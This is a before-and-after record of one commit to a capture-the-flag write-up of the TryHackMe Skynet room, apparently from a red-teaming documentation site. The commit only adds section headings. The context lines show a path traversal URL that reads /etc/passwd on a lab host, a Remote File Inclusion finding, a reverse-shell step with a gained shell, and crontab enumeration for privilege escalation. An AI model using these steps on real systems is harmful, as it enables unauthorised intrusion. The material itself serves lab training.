

Before and after one commit to tymyrddin/red-escalation, a Sphinx documentation site: the page built from source/docs/thm/skynet.md, in a window 1280 px wide and 1400 px high, scrolled down 10407 px. Shown: the whole window at 82% size. Built offline with Sphinx 7.4.7 and the Read the Docs theme 2.0.0, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Version 0.1

```diff
--- a/source/docs/thm/skynet.md
+++ b/source/docs/thm/skynet.md
@@ -397,7 +397,11 @@
 |:--:|
 | http://10.10.56.232/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?<br>urlConfig=../../../../../../../../../etc/passwd |
 
-It is vulnerable to Remote File Inclusion. Use a reverse shell.
+It is vulnerable to Remote File Inclusion.
+
+### Exploit Remote File Inclusion
+
+Use a reverse shell.
 
 Start a listener:
 
@@ -433,6 +437,8 @@
     /bin/sh: 0: can't access tty; job control turned off
     $
 
+### Privilege escalation
+
 Explore:
 
     $ cat /etc/crontab
```
